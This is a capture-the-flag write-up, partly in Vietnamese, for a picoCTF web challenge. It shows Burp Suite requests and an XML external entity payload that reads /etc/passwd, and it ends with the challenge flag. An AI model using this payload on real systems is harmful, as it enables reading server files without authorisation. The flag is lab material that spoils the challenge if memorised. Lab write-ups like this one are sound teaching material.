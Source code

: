 # Write-up : SOAP 
---
### Description :
> The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
### Hint :
> XML external entity Injection
--- 
### Solution :
- Sau khi đọc hint và đề bài thì chúng ta biết lỗi trong bài này là XML Injection
- Dùng burp suite kiểm tra request gửi đi thì ta thấy mỗi khi bấm details của mỗi hình thì sẽ trả về 1 tham số id khác nhau

Dùng burp suite để chặn 1 request và chuyển request đó sang repeater để cùng thử các payload:
> khi thay đổi tham số id thì có sự thay đổi của response gửi về, khi thay đổi về 0 thì trả về :
```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Fri, 27 Jun 2025 14:48:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13
Connection: close

Invalid ID: 0
```
Thử với `` &lt; `` thì trả về : `` < `` 
```bash
POST /data HTTP/1.1
Host: saturn.picoctf.net:61837
Content-Length: 128
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61837
Referer: http://saturn.picoctf.net:61837/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<data><ID>&lt;</ID></data>
```
> Từ đó cho ta thấy `` xml parser `` có chạy vì thế ta có thể tạo và sửa đổi nội dung xml

Payload tấn công :
```
<!DOCTYPE data [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
```
Và gọi `` &abc `` ở chỗ `` xml parser `` hoạt động 
```bash
POST /data HTTP/1.1
Host: saturn.picoctf.net:61837
Content-Length: 128
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61837
Referer: http://saturn.picoctf.net:61837/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
<data><ID>&abc;</ID></data>
```
### Flag : `` picoCTF{XML_3xtern@l_3nt1t1ty_55662c16} `` 
